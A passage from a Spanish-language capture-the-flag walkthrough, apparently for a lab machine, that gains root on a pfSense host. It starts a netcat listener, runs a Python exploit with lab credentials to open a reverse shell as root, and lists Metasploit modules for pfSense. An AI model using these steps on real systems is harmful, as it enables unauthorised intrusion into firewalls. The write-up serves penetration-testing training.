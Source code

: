 Hagamoslo por pasos:

* Activamos una **netcat**
```bash
nc -nvlp 443                                  
listening on [any] 443 ...
```

* Usamos el Exploit:
```bash
./PFSense_Exploit.py --rhost 10.10.10.60 --lhost Tu_IP --lport 443 --username rohit --password pfsense
```

* Resultado:
```bash
nc -nvlp 443                                  
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.60] 46858
sh: can't access tty; job control turned off
# whoami
root
```
Excelente, este Exploit nos conecta directamente como **usuario root**.

<h2 id="PruebaExp3">Ganando Acceso con Metasploit Framework</h2>

Esta parte es muy simple, pues vamos a utilizar el mismo Exploit, pero en **Metasploit**.

Vamos por pasos:

* Inicia **Metasploit**:
```bash
msfconsole
```

* Busca un Exploit para **pfSense**:

```bash
msf6 > search pfsense
.
Matching Modules
================
.
   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/unix/http/pfsense_clickjacking          2017-11-21       normal     No     Clickjacking Vulnerability In CSRF Error Page pfSense
   1  exploit/unix/http/pfsense_diag_routes_webshell  2022-02-23       excellent  Yes    pfSense Diag Routes Web Shell Upload
   2  exploit/unix/http/pfsense_graph_injection_exec  2016-04-18       excellent  No     pfSense authenticated graph status RCE
   3  exploit/unix/http/pfsense_group_member_exec     2017-11-06       excellent  Yes    pfSense authenticated group member RCE
   4  exploit/unix/http/pfsense_pfblockerng_webshell  2022-09-05       excellent  Yes    pfSense plugin pfBlockerNG unauthenticated RCE as root
.
.
Interact with a module by name or index. For example info 4, use 4 or use exploit/unix/http/pfsense_pfblockerng_webshell
```
